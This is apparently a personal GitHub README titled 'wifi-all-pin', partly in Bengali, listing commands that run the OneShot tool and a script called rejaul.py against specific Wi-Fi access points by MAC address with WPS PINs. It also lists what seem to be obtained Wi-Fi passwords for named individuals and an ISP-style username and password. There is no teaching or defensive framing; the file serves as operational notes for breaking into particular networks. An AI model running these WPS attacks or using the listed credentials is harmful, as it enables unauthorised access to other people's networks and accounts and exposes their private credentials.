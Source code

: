 # wifi-all-pin 

## একটু স্লো দোকানের:-  

``` sudo python rejaul2712/rejaul.py -i wlan0 -b 84:D8:1B:AA:9D:A8 -B -p 06273385 ```

## saim solobd বাগিনা:-
 
```sudo python rejaul2712/rejaul.py -i wlan0 -b CC:2D:21:62:13:58 -B -p 55157698 ```
sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305


``` rayhan password:- Anas2520


```username:- 100886@naim.sol-bd.com ```

``` passwod:- 1122 ``` sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305

jakir wifi:- 85239999

jamal wifi= 91978035

